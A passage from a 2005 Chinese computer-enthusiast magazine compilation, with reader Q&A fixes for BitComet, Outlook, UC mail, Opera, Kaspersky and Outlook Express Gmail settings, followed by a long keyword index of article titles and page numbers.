**答：** 由于网络不稳定等各种因素存在，出现你这种情况的几率比较大。其实，可以在遇到无法继续下载的情况时，通过下面的方法来实现续传。

第一步：利用Bitcomet提供的搜索功能来搜索与原文件名和大小一致的Torrent文件。双击“收藏夹→Torrent搜索”，在打开搜索引擎中输入关键字并进行搜索，选择其中下载种子数和人数最多的服务器，然后点击下载。

第二步：在BitComet中打开刚下载的Torrent文件，在弹出“任务属性”对话框中切换至“高级设置”选项卡，把“服务器列表”里的服务器地址复制下来。

第三步：回到Bitcomet的主窗口，下载列表中找到没下载完的文件，右击之并选择“属性”，打开其“任务属性”窗口，切换至“高级设置”，然后用刚才找到的新服务器覆盖原来的服务器(直接添加也可)，点击“开始”即可继续下载了。

注意，更换种子(即更换服务器)，下载所对应的文件名和大小要一致。当然，也可自己手动修改所下载的文件名，再用文件校验一下即可。

## Outlook总是自动发送一封无法发送的邮件

**问：** 我在使用Outlook收取邮件时，不小心点击了一个要求回执的邮件之后，Outlook总是没完没了地自动发送一个信件，然后提示失败，代号是0x8004210b，提示没有授权。并且，过几分钟就会跳出来这样的窗口。请问如何解决？（呆瓜）

**答：** 打开Outlook程序，在主窗口中单击菜单“工具→选项”，在打开的窗口中选择“首选参数”选项卡，单击“电子邮件选项”按钮，在打开的窗口中单击“跟踪选项”按钮，选择窗口下面的“从不发送响应”选项，最后单击“确定”按钮即可。

## 申请UC邮箱别名

**问：** 我在使用UC时，发现UC自身的邮箱不错，于是想将其作为我的主要通讯邮箱，但是UC邮箱名称是我的UC号，不知道有没有什么方法可以给UC邮箱重新起个名？（上海·艾咪）

**答：** UC提供了UC邮箱别名功能，只要为你的UC邮箱申请一个别名即可。打开并登录UC，单击主窗口中的“菜单→UC工具→申请UC邮箱别名”，在打开的窗口中直接输入你想给UC邮箱取的名称，再单击“申请别名”按钮，如果这个别名没有被其他人申请，你便成功获得了一个UC邮箱的别名，接下来再按照向导提示将别名与UC邮箱进行绑定即可。

## Opera9.0无法导入IE收藏夹

**问：** 我下载并安装了Opera9.0最新版浏览器，当试图使用导入功能将IE浏览器的收藏夹导入时，虽然表面上导入成功了，但是在Opera中只导入了一个空文件夹。请问，如何才能正确地将IE浏览器的收藏夹导入到Opera9.0中？（重庆·小雪）

**答：** 可能是程序自身的原因，虽然Opera9.0的导入选项中显示可以直接导入IE浏览器的收藏夹，但是在实际操作时，的确不能成功导入IE浏览器的收藏夹。如果想将IE浏览器的收藏夹导入到Opera9.0中，我们可以按下面的方法进行操作。

第一步：打开IE浏览器，单击菜单“文件→导入和导出”，打开“导入/导出向导”窗口，然后按照向导提示将IE收藏夹导出并保存到硬盘中。

第二步：打开Opera9.0浏览器，单击菜单“File→Import and export→Import Netscape/Firefox bookmarks”项，在打开的窗口中选择先前从IE导出的收藏夹文件即可。

## 取消卡巴斯基邮件监控

**问：** 我的卡巴斯基版本是5.0.388版本，最近它总是提示我的邮箱中有病毒并弹出提示窗口，我对邮箱进行了病毒扫描却不见什么病毒，而邮箱最近几乎都不怎么使用。请问，能不能取消卡巴斯基对我邮箱的监控？（武汉·DiDi）

**答：** 如果你不想让卡巴斯基监控邮件，可以按下面的方法设置，打开卡巴斯基主窗口，选择“设置”选项卡，再单击“排除设置”项，在打开窗口中单击“添加”按钮，单击打开的窗口中的“对象”右侧的三点按钮，在弹出的窗口中选择邮箱对应的文件夹，最后保存设置即可。

## OE无法收取、发送Gmail邮件

**问：** 我申请了一个Gmail邮箱，想使用Outlook Express来收发Gmail中的邮件。按照常规的设置方法在Outlook Express中设置了，但却不能成功收发邮件，提示无法连接服务器。请问这是什么原因？（沙利）

**答：** 要想使用Outlook Express(以下简称OE)收发Gmail中的邮件，必须要符合两个条件，一是开启Gmail的POP功能；二是在OE中要按照Gmail的官方要求进行设置。下面我们来看看具体的设置方法。

首先登录Gmail邮箱，单击页面上的“设置”链接，再单击“转发和POP”，选择“针对所有邮件启用POP”项，最后一定要单击“保存更改”按钮保存参数的设置。

打开OE，单击“工具→账户”，在打开的窗口中单击“添加→邮件”，前面的设置与其他邮箱类似，只要按照页面提示操作直到最后“完成”步骤，接下来，再单击“工具→账户”，在打开的“Internet账户”框中选择对应于Gmail的账户，单击“属性”按钮，选择“高级”选项卡，选中“发送邮件(SMTP)”下“此服务器要求安全连接(SSL)”复选框，在“发送邮件(SMTP):”框中输入“465”。再选中“接收邮件(POP3)”下“此服务器要求安全连接(SSL)”复选框，将端口将更改为995。单击“服务器”标签，然后选中“我的服务器要求身份验证”复选框。最后单击“确定”按钮即可使用OE收发邮件了。

## 电脑爱好者合订本

## 2005年（下）关键词检索

### [A]

- ◇ ACDSee
  - 167 DC联手ACDSee 数码相片管理更轻松
  - 209 变了“味”的ACDSee 8.0
- ◇ Acrobat
  - 155 你了解的Acrobat有多少？让我们重新体验！
  - 254 插上翅膀的Acrobat
- ◇ AMD
  - 349 从钉锤到威尼斯，AMD兄弟细分辨
  - 357 AMD64位处理器的避暑山庄
- ◇ ASP
  - 53 10步之内学会 ASP
- ◇ 安全
  - 381 安全无极限:办公电脑防卫“三重门”

### [B]

- ◇ BIOS
  - 433 为何开机就会自动进入BIOS
- ◇ Blog
  - 135 Zoundry Blog Writer让你离线写博客
  - 315 死记硬背不行的 我用Blog学英文！
- ◇ BT 下载
  - 131 小块头也敢有大智慧！96KB的高速BT客户端
  - 139 快马也得加鞭！BitComet终极优化
  - 163 今天，你BT了吗？
  - 256 和BT时无法打开网页故障说“拜拜”
  - 309 1分钟！快速搭建BT发布站点
  - 437 解决TCP连接数引起的BT故障
  - 438 继续下载没有种子的BT文件
  - 423 简单加快BT下载速度
- ◇ 暴风影音
  - 421 解决“暴风影音”播放RM文件问题
  - 421 让“暴风影音”强制播放MP4格式
  - 421 让“暴风影音”兼容HDVD的播放
  - 422 解决“暴风影音”5.1音频问题
- ◇ 笔记本计算机
  - 18 AMD笔记本未袭 福兮？祸兮？
  - 18 过滤笔记本电脑的低价混水
  - 347 5种“快捷方式” 本本随时随地互联
- ◇ 笔记本电脑上的显示故障
  - 390 本本省电有道 —— SpeedSwitchXP设置指南
- ◇ 编程
  - 53 10步之内学会 ASP
  - 152 编写语音程序 ——让电脑“听”从你的命令
  - 154 Flash编程不难 轻松让节日烟花放起来
  - 256 她是属龙还是属兔？——知年龄猜属相
- ◇ 病毒
  - 143 警报！新CIH病毒来了
  - 435 查杀QQ白骨精病毒
- ◇ 拨号
  - 434 Windows 98下ADSL虚拟拨号自动化
- ◇ 博客
  - 27 博客网:穿了马甲我还认识你
  - 57 博客的进化论——从博客到维基、播客
- ◇ 补丁
  - 123 自制Windows超级SP包，从此告别缝缝补补
  - 133 补丁也玩分级制，GDR与QEF区别大公开

### [C]

- ◇ C
  - 200 用C语言编写三维魔方游戏
  - 200 用C#打造华丽的窗体控件
- ◇ CPU
  - 431 AMD64位处理器主板搭配
  - 433 什么是CPU和主板的工作频率
  - 433 AMD与英特尔的抉择
- ◇ 插件
  - 322 用插件——搜索再省一步

### [D]

- ◇ DC 模拟器
  - 207 让DC模拟器在低配置电脑上飞起来
- ◇ Delphi
  - 223 用Delphi编写拔图钉游戏
- ◇ Director
  - 165 Director ——《电脑爱好者》四季光盘大揭秘
- ◇ DIY
  - 83 这个圣诞夜 谁在为你歌唱 ——最浪漫圣诞礼物完美DIY方案
  - 92 N台电脑，一键全关闭
  - 141 我有我主张 我做我的RPG游戏
  - 142 多快好省 轻松打造KVCD
  - 162 自制智能软件机器人
  - 170 今天我出“书”了
  - 184 超酷自动播放光盘DIY
- ◇ 查毒杀毒
  - 118 我无辜 我们同是受害者
  - 132 疑似冲击波再袭！幕后凶手到底是谁？
  - 189 PC-cillin 2005请间谍软件“滚”开
  - 190 瑞星杀毒软件2005的漏洞攻击监控
  - 199 保住杀毒的最后圣地 ——制作杀毒软件的DOS版
  - 222 给瑞星添加移动存储自动杀毒功能
  - 224 巧用江民KV2006过滤恶意网址
  - 247 开源免费的杀毒软件ClamWin
  - 252 让诺顿天天升级
  - 258 嗅探软件也能“消毒”
- ◇ 超频
  - 354 CPU超频技法大放送
  - 379 打破Intel Pentium4倍频限制的最新超频选择
  - 384 K8闪龙超频完全指导手册
  - 430 超频失败不用怕
  - 433 超频设置对吗？
- ◇ 超线程
  - 116 没有硬的来软的 免费升级超线程
- ◇ 充电
  - 345 数码时代之充电秘笈

### [E]

- ◇ Excel
  - 157 八戒要亲是赔是赚, Excel里一目了然
  - 161 轻松调整单元格内文字的行距
  - 168 一年中必须记住的MM的节日
  - 169 乾坤大挪移 海量数据里面找不同
  - 176 Excel里轻轻松松背单词
  - 185 如何成为‘万事通’
  - 186 现学现用, 打造不固定节日查询系统
  - 194 超级女声各展风采, Excel铁面无情
  - 205 好为人师解疑惑 循循善诱说数组
  - 216 火眼金睛, 巧捉Excel公式里的‘虫子’
  - 229 预言家是怎样炼成的
  - 241 生活乱如麻 精打细算好当家
  - 242 赤手空拳 为数码照片打造‘全能管家’
  - 255 以不变应万变, 自定义函数出奇招
  - 261 数字格式自定义 Excel更好用
  - 270 输入身份证号其实不用太复杂
  - 311 Excel: 我也是抓虫大师!
- ◇ 耳机
  - 398 让我的歌声更嘹亮 ——耳机‘煲机’经验谈

### [F]

- ◇ Firefox
  - 24 让IE免费变身Firefox
- ◇ Flash
  - 145 Flash网络大补贴
  - 149 闪闪烁烁满天星—经典Flash光标跟随效果
  - 154 Flash编程不难 轻松让节日烟花放起来
  - 192 酷! 电子杂志是这样炼成的……
  - 213 一石激起千层浪—Flash水波效果实战
  - 263 三步制作超酷Flash导航菜单
- ◇ Flash MX
  - 169 Flash MX截图有妙招
- ◇ FlashGet
  - 437 Maxthon中直接调用FlashGet下载
- ◇ Foxmail
  - 233 Foxmail三大超新鲜、超实用密技
  - 437 清除Foxmail的历史记录
- ◇ FTP
  - 268 ‘你来我往’ 话FTP 服务模式
  - 326 文件装甲运输车—玩转新时代FTP
- ◇ 防火墙
  - 107 Windows防火墙安全鉴定书
  - 161 手工修复Windows XP的防火墙
  - 180 防火墙的大门你到底为谁开?
  - 181 ‘入侵检测’ 防火墙的‘好兄弟’
  - 201 ‘天网’恢恢 疏而不漏
- ◇ 风扇
  - 362 浅谈风扇对计算机的整体散热的影响
- ◇ 服务器
  - 26 信息时代 谁主沉浮 ——互联网中枢神经根服务器控制权之争
  - 337 架设自己的战队语音服务器
- ◇ 附件
  - 90 附件的自由战争

### [G]

- ◇ Gmail
  - 437 Google Talk中直接联系Gmail联系人
- ◇ Google
  - 268 抢修Google牌‘照相机’
  - 308 长脚的Google爬上了电脑桌
  - 326 在搜索中‘捕风捉影’ ——Google快照强行突破
  - 337 ‘狗狗’开始说话了
- ◇ 个性化
  - 104 懒人的技巧, 躺着也能玩电脑
  - 106 小编们的‘聪明’电脑
  - 130 拒绝重复劳动! 把设置打包带走
  - 191 胜似闲庭信步，轻松圆你作曲梦 ——Cakewalk SONAR 4.0实战
  - 231 小心! 老板来了! ——软件中的‘老板键’
  - 233 杀毒软件你也可以DIY
  - 234 用数据库技术打造个人任务管理器(1)
  - 244 谁说自造软件难? ——轻松打造个性工具栏
  - 248 用数据库技术打造个人任务管理器(2)
  - 318 1分钟建个‘迷你小窝’
  - 369 工作卡这种专业东东也能DIY!
  - 396 做个能遥控的电脑
  - 432 一台计算机上同时使用两台显示器
- ◇ DOS 命令
  - 92 DOS快餐店(八):名侦探破案实录
  - 94 DOS快餐店(九):快餐店的‘魔鬼命令测试’(上)
  - 95 DOS快餐店(十):快餐店的‘魔鬼命令测试’(下)
  - 99 DOS命令+Excel=批量文件重命名
  - 101 DOS快餐店(十一):终极DOS技能—循环
- ◇ DVD
  - 208 再战极限! 大容量DVD影碟完全制作手册
  - 405 蓝光向左DVD向右你走哪边
- ◇ DVD 光驱
  - 431 DVD光驱托盘弹出不到位
  - 432 DVD在播放刻录的音频CD时有噪音
- ◇ 打印
  - 160 批量打印我用LabelShopLE
  - 363 每天节省10块钱—软硬兼施降低打印成本
- ◇ 打印耗材
  - 22 连续供墨真能降低90%的打印成本?
  - 404 连续供墨让喷墨打印耗材不耗财
- ◇ 打印机
  - 256 办公室里的‘打印故事’
  - 373 软硬兼施, 让喷头不再堵塞
  - 392 谈谈喷墨打印机的合理使用
  - 395 释放打印机驱动程序的潜能
  - 426 解决不能为用户安装默认网络打印机故障
  - 225 与BT并驾齐驱 看电骡(eMule)再战江湖
  - 394 从芯片看电视卡的选购
  - 209 巧取豪夺 网站电子书
  - 164 四步! 悠悠绿水荡漾起来
  - 112 动态链接库 Windows的活动大陆
  - 34 短信网址,带你去逛架在短信上的商铺
  - 41 短信防骗:不要和陌生人说话
- ◇ 多媒体
  - 38 十年变革 “X.1 + 1”:音箱能否崛起 PC多媒体
  - 83 这个圣诞夜 谁在为你歌唱 ——最浪漫圣诞礼物完美DIY方案
  - 142 多快好省、轻松打造KVCD
  - 147 Cool Edit Pro给网络歌手热热身
  - 173 MyMPC, 刮起影音播放的风暴
  - 175 善用透明通道 DIY超个性电影
  - 188 轻松制做电影剧本
  - 194 搭建自己的虚拟演播室
  - 202 Vegas 6.0 老百姓家的‘大导演’
  - 238 再见‘音’雄! Cool Edit Pro实例集锦
  - 251 聆听天籁之音, 我用千千静听
  - 325 寻觅知音 分享我的音乐心情
  - 375 构建最简单的家庭媒体中心
  - 386 平台化:家庭多媒体娱乐未来趋势
  - 422 双声道电影巧设置
  - 422 快速直接分割尺寸较大的AVI文件
  - 422 解救压缩包中的视频文件
  - 424 Win2003影片播放不及Win2000下流畅
  - 427 解决Windows Media Player‘撕破脸皮’的问题
- ◇ 多系统
  - 99 安装多系统, 我偏不先来后到
  - 112 多重系统, 你听谁的## 故障解决
- 423 解决0xc0000135错误提示问题
- 423 解决修复延缓写入失败问题
- 424 Nero破坏UDF格式的问题

## 关机
- 426 Windows XP无法关机

## 光盘
- 380 光盘应该如何保护?

## 光驱
- 426 Windows XP又遇光驱丢失

## 广告
- 316 小心呀！"流氓"进村了——广告软件的六大潜入方式
- 436 去除迅雷广告

## [H]

## 红外设备
- 428 Windows无法找到红外线设备

## 互联网
- 64 18岁 中国互联网长大了

## 画笔
- 261 偷窥下一代的Windows"画笔"

## 剪贴板
- 129 小心剪贴板出卖你的隐私

## 键盘
- 388 Office键盘 让办公一族如虎添翼

## 键盘鼠标
- 393 人体工程学：为你的舒适而生

## 脚本编辑器
- 257 找回被遗忘的脚本编辑器

## 解压缩
- 421 解决论坛下载附件无法解压问题

## 金山词霸
- 435 解决金山词霸取词冲突问题

## 金山毒霸
- 421 巧过金山毒霸2005验证

## 进程
- 99 博客变黑客？还我系统清白

## 静音
- 355 漫漫静音不归路

## 局域网
- 36 追忆京城不眠夜——CLPA LANParty 2005 盛会侧记
- 434 无法访问某局域网计算机的共享目录

## 连接故障
- 437 网络连接上显示惊叹号

## 聊天
- 181 MM的世界 让沟通无极限

## 聊天记录
- 436 如何搜索聊天记录

## 浏览
- 434 弹出认证窗口停滞影响浏览效率
- 434 整治网页滚动条看不清的问题
- 435 解决一个变态的网页弹出窗口问题
- 436 浏览的网页显示为空白
- 437 连接正常但无法浏览网页

## 浏览器
- 262 巧用微型书签，打造超强网页浏览器
- 312 微缩版"画中画" 桌上就能看！
- 423 巧解Maxthon假死问题
- 424 替换Maxthon中的出错页面
- 437 GB无法重复打开新窗口
- 438 避免Maxthon中新标签覆盖当前页面

## 录音
- 104 不装软件，也玩专业录音

## 论坛
- 318 架个《电脑爱好者》论坛其实很容易

## [K]

## 看图软件
- 159 图片时代 另类方法Show出你的照片
- 171 Ashampoo Photo Commander彻底让ACDSee下岗！

## 刻录
- 169 批量刻录也省心
- 218 如何刻录？听SizeMe
- 220 另类超刻 强突700MB限制
- 348 光盘刻录，品质先行——自己动手检测光盘刻录品质
- 361 用刻录机分享我的DC短片、分享我的世界

## 刻录机
- 430 16X DVD只能4X刻录
- 432 DVD刻录机不读刻录盘

## 捆绑软件
- 135 我比你更无赖！巧治捆绑软件

## [M]

## Maxthon
- 435 解决Google代理软件在Maxthon中的使用问题
- 435 搞定新版Maxthon访问网页变慢的问题

## McAfee
- 424 用户名导致McAfee安装失败

## MP3
- 25 买MP3慎防李鬼拦路
- 143 MP3歌词显示探密
- 270 全自动播放MP3光盘就这么简单
- 329 为MP3随身听选种好格式
- 402 MP3播放器选购点点通

## MSN
- 222 我在做什么，你知道吗？——为MSN Messenger添加监视功能
- 227 姗姗来迟的"花蝴蝶"会领舞中国吗？
- 239 MSN Spaces超级变变变
- 266 终于有了群功能！MSN 8.0就要来啦！
- 310 我的MSN Space就是比你酷
- 321 给MSN Messenger 7的联系人做美容
- 328 MSN闪屏振动无限"连发"
- 333 MSN Messenger也能隐身聊天啦
- 424 MSN无法收到消息的原因
- 424 备份MSN Messenger的表情符号
- 435 MSN Messenger 7.0联系人的名字太丑了

## [I]

## IE
- 336 我的IE一直很安静
- 427 安装某些补丁时Explorer.exe出错
- 427 IE出现故障时的修复
- 437 使用花刺代理后无法使用IE
- 437 清除IE中文历史记录

## Illustrator
- 213 插画大师Illustrator

## IP 地址
- 436 如何动态获取IP地址
- 437 查询域名、IP的详细信息

## [J]

## JAVA
- 32 面向未来 关注Java十年

## 计算机取证
- 20 英雄大会道"计算机取证"三大顽症

## 计算机术语
- 361 稀饭魔语大辞典

## 加密解密
- 154 破解StarForce3 不拔光驱也能玩加密游戏
- 210 黑客如何盗取你的密码
- 425 无法设置密码

## [L]

## LCD
- 343 谋定而动—了解LCD的四要点
- 366 屏保让LCD"死得早"？

## Linux 系统
- 45 打破窗户的企鹅
- 99 Linux也玩硬盘安装

## [N]

### ◆ Nero
- 253 Nero 7，刮起家庭娱乐大风暴

### ◆ 内存
- 344 选好内存有7招
- 429 内存插满了就只能跑333？
- 430 内存扩容也要兼容
- 431 如何升级内存
- 432 升级内存造成计算机运行不稳定
- 433 增加内存后系统变得不稳定
- 433 升级内存注意兼容性

### ◆ 纳米
- 41 65纳米魅力何在 引无数英雄竞折腰

## [O]

### ◆ OCR 识别
- 380 慧眼识英雄——提高OCR识别率

### ◆ Office
- 150 5分钟学会贴便签
- 176 Publisher——办公室里的排版高手
- 178 Office中巧设图片透明度
- 182 Office错误代码轻松查
- 207 关于《极限瘦身 Office 2003安装包》一文的补充
- 217 Office办公中妙用Shift键
- 224 InfoPath 信息的快行道

### ◆ Outlook
- 435 解决Outlook突然自动退出的问题
- 437 清除Outlook收件人地址历史记录
- 438 Outlook总是自动发送一封无法发送的邮件

## [P]

### ◆ Photoshop
- 145 Photoshop网络大补贴
- 149 飞扬的韵律——用Photoshop制作打散效果图
- 156 实例尝鲜 品味Photoshop CS2新工具
- 175 Photoshop CS2扭曲工具实战
- 187 光影魔术手 菜鸟的Photoshop
- 204 超酷Flash相册Photoshop CS2造
- 204 巧用“粘贴入”，制作嵌图美术字
- 240 超级“磨皮”大法，三分钟旧貌换新颜
- 252 制作陈旧壁画 触摸历史印迹
- 423 消除Photoshop CS2的Updater错误提示

### ◆ PowerPoint
- 215 PowerPoint字体守护战
- 255 千变万化的剪贴画

## [Q]

### ◆ QQ
- 29 QQ升级变“活跃天”不是关键
- 143 小心你的QQ Mail出卖你
- 218 QQ2005 Beta3让你全屏视频、安全聊天
- 222 QQMail不用QQ收
- 232 给QQ硬盘加把“锁”
- 233 当QQ被“盗”之后……
- 252 在QQ2005正式版中使用中文密码
- 268 改动文件格式 妙用QQ聊天窗口
- 114 QQ分组排序，其实很简单
- 307 认识你真好——QQ泡MM的奇招妙招
- 310 亲亲我的Q宠宝贝
- 313 QQ 2005 Beta2 沸腾出炉啦！
- 313 网络时代 我用视频追杀丘比特
- 323 妙取QQ好友的IP信息
- 335 键行天下——QQ中的隐秘快捷键
- 434 免费建立超强QQ群
- 435 解决局域网内用QQ传文件速度慢的问题

### ◆ 启动
- 98 还我启动自由仅需1KB
- 433 主机为何无限重启？

### ◆ 权限
- 96 禁地的战役
- 128 安全和便捷两不误，无形的权限之锁

## [R]

### ◆ 人物
- 31 别了，李开复

## [S]

### ◆ SnagIt
- 146 桌面“数码相机”SnagIt
- 215 丢掉Photoshop，SnagIt也玩数码特效

### ◆ 闪存
- 385 未来趋势，闪存取代硬盘

### ◆ 闪存盘
- 186 揭秘改造新招数 我的闪存盘大不同
- 196 将Windows装进你的闪存盘
- 210 小心！你的闪盘被监视了
- 423 巧解闪存盘无法取下问题
- 429 如何才能直接拔插闪盘而不损坏数据

### ◆ 上网
- 257 能上QQ但不能上网问题解析

### ◆ 摄像头
- 267 谍影重重3之摄像头监控
- 352 跟我来，DIY 高达摄像头！

### ◆ 声卡
- 423 VMWare中声卡无声问题
- 430 声卡噪音的几种原因
- 430 超频后声卡为什么不出声

### ◆ 市场
- 30 以旧换新 确有其事

### ◆ 视频
- 260 一流的“导演”之路——Vegas 影视特效实录

### ◆ 视频聊天
- 179 巧用虚拟摄像头 视频聊天也要有特效

### ◆ 收藏夹
- 320 IE“窃取”多页面浏览器的收藏夹
- 438 Opera9.0无法导入IE收藏夹

### ◆ 手机
- 19 警惕手机抢钱
- 22 小灵通地下烧号暗藏几多陷阱
- 28 “手机钱包”引发支付革命
- 33 苹果出怪招 音乐手机成鸡肋？
- 219 当“聪明”手机遇到“聪明”电脑……

### ◆ 输入法
- 153 体验智能ABC的特殊符号输入
- 211 开启电脑之门的钥匙—微软拼音输入法
- 421 不认识的字也能用智能ABC输入
- 421 微软拼音输入法与RealOne冲突巧解决
- 424 不同用户如何共享智能陈桥五笔

### ◆ 鼠标
- 205 “鼠青天”真的是青天吗？
- 389 运“鼠”如飞，鼠标精度随心调

### ◆ 鼠标键盘
- 366 该休息了，我的鼠标键盘！

### ◆ 数码伴侣
- 401 如“影”随“摄”——数码伴侣选购指南

### ◆ 数码相机
- 28 国货当自强，“抗日”重任担肩上——爱国者吹响向日系数码相机的开战号角
- 367 别让像素蒙了我们的眼

### ◆ 数码照片
- 160 免费“贴纸照” 今天就来拍
- 167 DC联手ACDSee 数码相片管理更轻松
- 204 个性大头贴 看我美丽七十二变

### ◆ 数字出版
- 23 数字出版 圆你一个出书梦

### ◆ 数字水印
- 30 数字水印方兴未艾 市场推广期待良策

### ◆ 搜索
- 40 新浪怎么“爱问” 百度“知道”什么
- 111 挑战Windows搜索速度极限
- 242 链接预览专家AddPreview
- 311 把失去的缘份找回来

### ◆ 速度
- 424 解决软件保存速度过慢问题

## [T]

### ◆ TM2005
- 221 TM2005办公族必备 MSN的COSPLAYER

### ◆ Total Commander
- 128 单挑还是群殴？与TC过招

### ◆ TXT
- 421 巧分TXT大文档

### ◆ 通讯簿
- 360 十分钟，告别通讯簿管理的石器时代

### ◆ 通讯设备
- 332 告别“通讯基本靠吼”的时代——集线器、交换机、路由器的对话

### ◆ 图像图像处理
- 138 远离发图限制，图片极速“瘦身”
- 166 彩蝶翩翩入梦来
- 228 信手涂鸦，画出心中的童话世界
- 228 “卡通”你自己
- 235 风色幻想TV秀—ParticleIllusion特效尝试
- 239 人人能做封面设计师
- 245 有了Picasa，图片管理超轻松
- 253 简单几步炫亮你的网上家园
- 258 爱你在心口难开 JPG帮你解难题——制作会唱歌和藏情书的JPG文件
- 262 彰显个性，从“名”做起

## [U]

### ◆ USB
- 425 Windows XP下USB设备经常失灵
- 426 USB设备导致开关机故障
- 429 Window 2003下不认USB移动硬盘

### ◆ USB设备
- 104 把USB设备揪出来

## [V]

### ◆ VB
- 162 用VB制作验证码生成器
- 210 用VB编写极限飞行小游戏

### ◆ VBA
- 73 疯狂的Word魔术——完美实例瞬间掌握VBA的神奇魔力

### ◆ VBS脚本
- 247 我和电脑玩猜拳

### ◆ Visio
- 183 拖拖拽拽学Visio 打造美丽新生活

## [W]

### ◆ Winamp
- 421 关闭Winamp时出现内存引用问题

### ◆ Windows XP
- 91 XP Home轻松变Pro 立即节约100美元
- 119 惊艳！XP原来可以如此美丽
- 136 Vista正式版未出先盗版—瞬间XP变Vista
- 140 Windows XP的10门“必修课”
- 340 你真的启用了Windows XP的“预读取”吗
- 431 给64位Windows XP系统减肥

### ◆ Windows版本
- 378 Windows Vista版本区别偷偷报

### ◆ WinRAR
- 230 让文件更小一点——WinRAR固实压缩文件深层探秘

### ◆ Word
- 73 疯狂的Word魔术——完美实例瞬间掌握VBA的神奇魔力
- 158 Word里面下象棋
- 161 Word也玩稿纸打印
- 169 别人的修改看得明明白白
- 177 网页文章入住Word的几道坎
- 217 Word微调有妙招
- 226 同一Word文档，页面纵横混排
- 229 锦上添花！图片、文档也玩邮件合并
- 242 Word“改装”Blog发布机
- 263 Word表格批量变Excel电子表
- 421 解决Word打印页面不合适的问题
- 421 Word中页码打印的一个难点问题
- 422 恢复Word的默认字体颜色
- 423 拯救被WPS文字废掉的Word

### ◆ 网店
- 61 听他们讲开店的故事

### ◆ 网管
- 42 网管日记之无线超完全攻略

### ◆ 网卡
- 341 网卡故障点点通—6种最常见的故障

### ◆ 网络
- 38 用“心”打造快乐行“板”
- 76 游走在边缘的免费午餐

### ◆ 网络安全
- 153 网络看护还是“妈妈”好
- 234 “溢出攻击”攻防录
- 323 Tor网络的“独行忍者”
- 422 解决瑞星防火墙图标移动或见不到报警提示的问题
- 422 解决网镖规则不能保存的问题
- 422 解决瑞星杀毒时提示“请解压”的问题

### ◆ 网络地图
- 129 我去重庆看美女—网络帮你熟悉新环境

### ◆ 网络电视
- 206 以BT的名义看电视——主流P2P网络电视使用手记
- 217 边看边录，还能放的网络电视

### ◆ 网络购物
- 436 网上商城中搜寻最便宜的物品

### ◆ 网络故障
- 435 解决https站点的访问问题
- 436 解决打不开HTTPS网页的故障
- 436 无法在线看电影
- 437 网站无法正常使用
- 437 无线网络无法Ping通对方
- 438 网上邻居内工作机时有时无的问题

### ◆ 网络技术
- 331 “UPnP”让全世界轻松牵手
- 334 网络加速 “七剑”下江山

### ◆ 网络连接故障
- 426 电话和调制解调器选项无法打开

### ◆ 网络窃听
- 320 碟中谍3！网络上演不可能的任务
- 324 碟中谍3之007重出江湖

### ◆ 网络视频
- 144 零成本搭建网络视频点播系统

### ◆ 网络速度
- 425 上网后系统速度变慢

### ◆ 网络限制
- 129 我去重庆看美女—网络帮你熟悉新环境

### ◆ 网络硬盘
- 311 “大块头”要有“大智慧”——玩转网络硬盘和大容量邮箱

### ◆ 网络资源
- 214 有我网络在，你们软件下岗吧！
- 227 千里网络一线“签”——妙用“美味书签”
- 264 没有FTP一样可以玩网络共享——网络上的共享存储盘
- 310 免费刻章，要不要？
- 319 书法家、设计师统统请到家！
- 325 免费口语外教请回家
- 328 敲打岩石的记忆
- 328 密码丢失到底如何找回
- 329 大自然的召唤
- 330 探索，梦想开始的地方
- 332 走进迪斯尼动画王国
- 333 以假乱真！模型的艺术
- 334 我们的大学生活
- 337 科学才是硬道理
- 338 转动神奇的魔方
- 338 方言，不仅仅是地方话
- 339 今天，我们只谈改装
- 339 走，上网打扑克去
- 438 安装个人网上银行不能通过SSL连接
- 438 将淘宝专家退款转账至银行账户

### ◆ 网上购物
- 268 跟购物狂学开网上小店

### ◆ 网上录取
- 24 网上录取 以安全的名义

### ◆ 网页
- 161 深入了解网页中的“马”
- 423 打开网页后，不再另存为
- 424 去除网站安全提示的方法

### ◆ 微处理器
- 20 联想之“芯”护航奥运
- 36 要“双核”还是要“双芯”？
- 359 回眸一顾 英特尔赛扬处理器家族七年

### ◆ 文本文件
- 103 见名知义，让文本文件一目了然
- 122 远离等待，把DOC都变成TXT

### ◆ 文件处理
- 150 处乱不惊慌 遇险Office文档轻松恢复
- 152 压缩文档大不同，能唱歌来会跳舞
- 170 作个007 文件藏进照片里
- 240 用好“潜望镜”，文档内容早知道
- 422 文件系统让音乐无法播放
- 422 从“私人文件保密专家”中恢复文件
- 424 同时打开两个文件夹的问题
- 425 文件夹的查看方式丢失
- 425 删除顽固文件终极武器
- 426 修正Windows XP对文档内容搜索的支持问题

### ◆ 文件格式转换
- 245 揭秘！BT电影来源完全揭秘——快速将DVD转成RMVB格式

### ◆ 文件关联
- 136 双击背后的秘密——文件关联

### ◆ 无线设备
- 431 无线设备会串扰

### ◆ 无线网络
- 42 网管日记之无线超完全攻略
- 125 30元！包月无线上网 补遗篇
- 314 30元！包月无线上网
- 351 本本无线上网套餐，哪个更划算？

### ◆ 无线应用
- 376 UWB 让无线应用插上超宽带的翅膀

## [X]

### ◆ 系统安全
- 90 电脑，让我放心地离开你
- 143 妙用TaskList 系统安全巧检测
- 153 卡卡 Windows的安全小帮手
- 172 System Repair Engineer系统修复的瑞士军刀
- 175 你的密码安全吗？
- 248 手工解决由实名软件造成的系统崩溃问题

### ◆ 系统安装
- 243 系统安装仅仅是个开始……

### ◆ 系统故障
- 424 “使用默认页”按钮为何失效了
- 424 Windows Update下载与安装被阻止
- 425 中文统统都变问号
- 426 讨厌的“磁盘空间不足”警告
- 426 整治右键菜单故障
- 427 解决搜索栏变成空白的问题
- 427 WinMgmt.exe总是提示出错
- 427 打开“控制面板”后没有响应
- 427 “网络猪”带来的系统错误
- 427 “系统还原”和“自动更新”等窗口为空白
- 427 修复“磁盘管理”启动故障
- 428 msconfig.exe找不到路径
- 428 解决Windows升级时的Administrators Only错误
- 428 安装或启动16位Windows的程序时出现错误信息
- 428 VPC无法在PAE模式运行

### ◆ 系统还原
- 110 擦亮你的月光宝盒——玩转系统还原高级设置

### ◆ 系统权限
- 102 权限之剑再度出击，彻底斩断邪恶黑手

### ◆ 系统设置
- 424 时间同步，想来就来
- 424 音量图标不翼而飞
- 425 Windows标题栏字体突然变小
- 425 赶不走的“全屏幽灵”

### ◆ 系统维护
- 124 “带命令行的安全模式”抢救崩溃系统

### ◆ 系统文件
- 105 亦真亦假的Svchost.exe
- 114 名副其实的Rundll32.exe
- 121 conime.exe洗冤录
- 134 系统中的“奇怪”文件

